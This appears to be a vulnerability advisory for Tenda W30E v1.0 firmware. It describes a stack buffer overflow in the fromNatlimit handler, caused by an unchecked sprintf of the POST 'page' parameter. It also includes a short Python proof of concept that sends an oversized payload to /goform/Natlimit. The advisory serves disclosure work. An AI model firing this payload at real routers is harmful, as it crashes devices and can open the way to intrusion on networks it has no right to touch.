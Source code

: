 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability located in the `fromNatlimit` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(s, "lan_controllist.asp?page=%s", v5);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

![image-20240409103020427](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103020427.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/Natlimit"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409103000348](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103000348.png)